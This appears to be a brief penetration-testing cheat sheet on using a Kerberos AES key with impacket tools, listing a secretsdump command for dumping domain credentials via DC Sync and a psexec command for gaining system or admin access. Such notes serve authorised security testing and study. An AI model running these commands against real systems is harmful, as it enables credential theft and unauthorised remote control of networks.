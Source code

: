 # aesKey

## Tools: impacket tools , secretsdump

#### 1) secretsdump

 - [proxychains] secretsdump -aesKey AES_KEY 'DOMAIN'/'USER'@'IP' (See DC Sync)

#### 2) impacket tools

impacket-psexec -aesKey AES_KEY USER@FQDN (System/Admin access)
